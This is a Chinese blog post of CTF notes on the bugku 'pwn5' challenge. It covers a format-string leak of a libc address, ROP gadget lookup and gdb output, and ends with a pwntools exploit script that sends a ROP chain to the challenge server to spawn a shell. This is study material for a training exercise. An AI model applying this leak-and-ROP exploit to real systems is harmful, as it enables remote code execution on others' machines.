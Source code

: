 ```yaml
---
title: pwn5 - bugku
visitors: 阅读量
copyright: true
tags:
  - bugku
  - pwn
categories:
  - bugku
abbrlink: '27531070'
date: 2019-10-29 21:26:20
updated: 2019-10-29 21:26:20
password:
top:
---
```


> 本文并未真正意义上的writeup，因为我无法成功复现？？？只是单纯记录一下，做题笔记

首先看一下保护，只开了NX。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/pwn5-bugku-checksec.png)

没有危险函数，如system、getshell等

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190903183652137.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2tldHlfZ3o=,size_16,color_FFFFFF,t_70)

main函数中的变量s，在read函数时可以造成溢出。当中的if条件是限制程序的第二次输入必须包含``真香``、``鸽子``两个字符串。

当中的重点是**printf存在格式化字符串漏洞**，我们可以从这里读取到main函数的返回地址。至于这个地址有什么呢？一开始我看到题目没有任何危险函数，我也想到是溢出函数地址，然后计算libc基地址，从而得到system、/bin/sh真实地址来getshell的。只是想不到从这返回地址计算得到基地址。综上所述：**利用main函数返回地址计算libc基地址**

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190903183739209.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2tldHlfZ3o=,size_16,color_FFFFFF,t_70)

好，怎么计算基地址？找到两个说法：

1. 通过gdb查内存发现main返回地址在libc中的偏移是0x20830

   具体怎么查，怎么实现方法不明

2. > “这个题应该给出libc文件的，但是没有给，我们可以读pwn4题的libc，应该是一样的“
   >
   > 把libc文件放在ida中，找到_libc_start_main函数中调用main函数的地方，查看地址
   >
   > ![在这里插入图片描述](https://img-blog.csdnimg.cn/20190903184628636.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2tldHlfZ3o=,size_16,color_FFFFFF,t_70)
   >
   > 这个main的返回地址就=libc基址+0x2082E(这个call rax的偏移地址) + 2(call rax的长度为2)
   >
   > 利用ROPgadget
   > 查libc的system函数偏移地址0x45390
   > 查libc的"/bin/sh"字符串偏移地址0x18cd57
   > 查human的pop_rdi_ret地址0x400933
   > libc中函数的实际地址=libc基址 + 函数偏移地址

   这第二个方法。。。我去找了一下pwn4题目也没有提供libc.so文件QAQ。本着不死心的态度，就用ROPgadget查下了唯一能查的pop_rdi_ret。

   ```
   ROPgadget --binary human --only 'pop|ret'
   ···
   0x0000000000400933 : pop rdi ; ret
   ···
   ```

   嗯是一样的。至于用ROPgadget查system、/bin/sh没有libc文件我怎么查？在看**蒸米师傅**文章时看到一种无libc查函数和字符串的方法。

   首先gdb在main函数处下断点，然后如下所示：

   ```
   ubuntu:gdb ./human
   
   gef➤  b *0x400796
   Breakpoint 1 at 0x400796
   gef➤  r
   gef➤  print system
   $1 = {int (const char *)} 0x7ffff7a33440 <__libc_system>
   gef➤  find /bin/sh
   Searching for '/bin/sh' in: None ranges
   Found 1 results, display max 1 items:
   libc : 0x7ffff7b97e9a --> 0x68732f6e69622f ('/bin/sh')
   ```

   **蒸米师傅**文章还有一种方法无libc计算偏移地址。用pwntools库的elf.libc来获取libc.so库：

   ```python
   from pwn import *
   elf = ELF("./human")
   libc = elf.libc
   ```

   再补充一个查询程序函数库的命令ldd

   ```shell
   skye@skye-ubuntu18:~/bugku$ ldd ./human
   	linux-vdso.so.1 (0x00007ffe07715000)
   	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fe0eadf9000)
   	/lib64/ld-linux-x86-64.so.2 (0x00007fe0eb1ea000)
   ```

   

   好，重点来了！**但是！但是！但是！这里得出来的地址与成功getshell脚本（见后）中计算得出的地址不一致！！！**

   难道是因为系统环境等神秘力量影响？验证一下，将脚本中加载的程序改为本地程序，而非服务端的程序，居然报错无法运行！但是服务端可以成功运行，难道真的是环境（我的是Ubuntu18-64位虚拟机）不一样？但是题目也没有给出libc文件，愁死人。

   唉，那就抛开地址计算部分说一下这道题目的其他考点吧。也就是格式化字符串错误。具体的格式化错误点[这里](https://veritas501.space/2017/04/28/格式化字符串漏洞学习)，就不重复造轮子了。

   不能自行复现的脚本

   ```python
   # -*- coding: utf-8 -*-
   from pwn import *
   context(os='linux', arch='amd64', log_level='debug') 
   
   #p = process("./human")
   p=remote('114.116.54.89', 10005)
       
   p.recvuntil("人类的本质是什么?\n")
   payload1="%11$p"
   p.sendline(payload1)
   p.recvline()
   
   libc_start_main_addr=p.recvuntil("%11$p")[:-6]
   libc_base=int(libc_start_main_addr,16)-0x20830      #偏移0x20830
   sys=libc_base+0x0000000000045390                    #偏移
   bin_sh = libc_base+0x18cd57							#偏移
   pop_rdi = 0x400933					                #ROPgadget找human中的pop rdi ret
   
   p.recvuntil('人类还有什么本质?\n')
   
   payload = 'a鸽子' + 'a'
   payload += '真香' + '\x00'
   payload = payload.ljust(0x20,'a') # 变量s空间有0x20
   payload += 'bbbbbbbb' + p64(pop_rdi) + p64(bin_sh) + p64(sys) # b*8填充的是ebp
   p.sendline(payload)
   
   p.interactive()
   ```

   脚本中的第9行，是格式化字符漏洞构造的特殊表达式。%p是输出带有0x的十六进制数，11$则是选择第11个参数，这里是通过多次修改得出的，这么测试出main函数返回地址是第11个参数，请看[这里](https://veritas501.space/2017/04/28/格式化字符串漏洞学习)实现任意地址读中的测试偏移量部分。

## 参考
[BugkuCTF pwn1 pwn2 pwn4 pwn5 pwn3 详细writeup【橘小白】](https://blog.csdn.net/kety_gz/article/details/100516666#commentsedit)

[蒸米32位及64位ROP笔记]([https://www.mi1k7ea.com/2019/04/09/%E8%92%B8%E7%B1%B3ROP%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/](https://www.mi1k7ea.com/2019/04/09/蒸米ROP学习笔记/))

[格式化字符串漏洞学习](https://veritas501.space/2017/04/28/格式化字符串漏洞学习)